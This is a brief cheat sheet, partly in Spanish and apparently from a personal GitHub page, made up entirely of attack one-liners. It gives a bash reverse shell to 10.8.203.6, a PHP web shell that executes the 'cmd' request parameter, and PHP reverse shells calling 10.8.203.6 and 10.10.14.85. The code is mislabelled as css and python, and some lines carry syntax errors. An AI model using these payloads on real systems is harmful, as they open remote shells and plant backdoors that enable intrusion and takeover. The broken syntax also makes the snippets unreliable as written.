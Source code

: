 ```css
bash -c "bash -i >& /dev/tcp/10.8.203.6/9001 0>&1"
```


Oneliner para ejecutar cmd desde url
```css
<?php 
        echo "<pre>" . shell_exec($_REQUEST['cmd']>
?>
```

oneliner para leer desde php
```python
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.8.203.6/7890 0>&1'"):
```

php.revershell
```python
<?php
    system("bash -c 'bash -i >& /dev/tcp/10.10.14.85/443 0>&1'")
?>
```